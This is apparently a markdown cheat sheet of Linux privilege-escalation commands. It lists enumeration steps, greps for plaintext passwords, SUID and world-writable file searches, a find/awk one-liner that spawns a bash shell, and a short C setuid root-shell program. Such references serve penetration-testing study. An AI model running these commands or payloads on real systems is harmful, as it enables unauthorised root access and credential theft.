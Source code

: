 #### Check kernel version
- uname -a

#### Environmental variables
- cat /etc/profile
- cat /etc/bashrc
- cat ~/.bash_profile
- cat ~/.bashrc
- cat ~/.bash_logout

#### Check common location for user installed software
- /usr/local/
- /usr/local/src
- /usr/local/bin
- /opt/
- /home
- /var/
- /usr/src/

#### Available services
- netstat -anlp
- netstat -ano

#### Running services
- ps aux | grep root
- ps -ef | grep root
- top
- cat /etc/services

#### Plain text usernames and/or password
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

#### Unmounted filesystem
- mount -l
- cat /etc/fstab

#### Access to more binaries
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null

#### Find 
- find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

#### Find world writable files
- find / -writable -type d 2>/dev/null
- find / -perm -222 -type d 2>/dev/null
- find / -perm -o w -type d 2>/dev/null
- find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

##### Find world writable folder
- find / -perm -o x -type d 2>/dev/null

##### Find world writable and executable folders
- find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#### Execute file as root
- sudo -l

#### Installed apps
- ls -alh /usr/bin/
- ls -alh /sbin/
- dpkg -l
- rpm -qa
- ls -alh /var/cache/apt/archivesO
- ls -alh /var/cache/yum/

#### Services misconfigured
- cat /etc/syslog.conf
- cat /etc/chttp.conf
- cat /etc/lighttpd.conf
- cat /etc/cups/cupsd.conf
- cat /etc/inetd.conf
- cat /etc/apache2/apache2.conf
- cat /etc/my.conf
- cat /etc/httpd/conf/httpd.conf
- cat /opt/lampp/etc/httpd.conf
- ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

#### World writable directories
- /tmp
- /var/tmp
- /dev/shm
- /var/spool/vbox
- /var/spool/samba

#### Cronjobs
- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron*

#### Create usefull C file
int main()
{
  setuid(0);
  setgid(0);
  execl("/bin/sh", "sh", 0)
}

#### Run usefull script for linux enumeration
- ***Linenum***: https://github.com/rebootuser/LinEnum
- ***Linuxprivchecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxExploitSuggester***: https://github.com/mzet-/linux-exploit-suggester
- ***LinuxExploitSuggester2***: https://github.com/jondonas/linux-exploit-suggester-2
- ***LinuxPrivChecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxSmartEnumeration***: https://github.com/diego-treitos/linux-smart-enumeration

#### 6) Enumerate /var directory and uncommon files and directory names

